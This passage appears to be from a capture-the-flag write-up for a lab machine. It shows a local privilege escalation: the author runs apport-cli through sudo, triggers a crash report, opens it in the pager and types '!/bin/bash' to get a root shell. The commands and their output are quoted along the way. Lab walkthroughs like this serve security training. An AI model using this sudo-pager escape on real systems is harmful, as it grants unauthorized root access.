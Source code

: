 ```
```
It is a crash viewer/reporter tool. My thinking is if we can find a way to view a file through apport-cli, it will likely be displayed using `more` or `less`, both of which have easy ways to "escape" into an interactive shell where we retain our root privileges. After some tinkering, I found a way to create a crash event using `apport-cli`:
```
logan@devvortex:/tmp$ sudo /usr/bin/apport-cli -w

*** 

After closing this message please click on an application window to report a problem about it.

Press any key to continue... 

Traceback (most recent call last):
  File "/usr/bin/apport-cli", line 387, in <module>
    if not app.run_argv():
  File "/usr/lib/python3/dist-packages/apport/ui.py", line 770, in run_argv
    xprop = subprocess.Popen(['xprop', '_NET_WM_PID'],
  File "/usr/lib/python3.8/subprocess.py", line 858, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
  File "/usr/lib/python3.8/subprocess.py", line 1704, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
FileNotFoundError: [Errno 2] No such file or directory: 'xprop'
```
Following the crash event, we are given the option to view the report:
```
logan@devvortex:/tmp$ sudo /usr/bin/apport-cli

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (30.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): 
```
Selecting View does some preparation, before we are dropped in a viewer software, which I believe to be `less`. We can invoke an interactive shell by typing `!/bin/bash`:
```
 ---------------------------------------------------------------------------

                          SEARCHING

  /pattern          *  Search forward for (N-th) matching line.
  ?pattern          *  Search backward for (N-th) matching line.
  n                 *  Repeat previous search (for N-th occurrence).
  N                 *  Repeat previous search in reverse direction.
  ESC-n             *  Repeat previous search, spanning files.
  ESC-N             *  Repeat previous search, reverse dir. & spanning files.
  ESC-u                Undo (toggle) search highlighting.
  &pattern          *  Display only matching lines
        ---------------------------------------------------
        A search pattern may begin with one or more of:
        ^N or !  Search for NON-matching lines.
        ^E or *  Search multiple files (pass thru END OF FILE).
        ^F or @  Start search at FIRST file (for /) or last file (for ?).
        ^K       Highlight matches, but don't move (KEEP position).
        ^R       Don't use REGULAR EXPRESSIONS.
```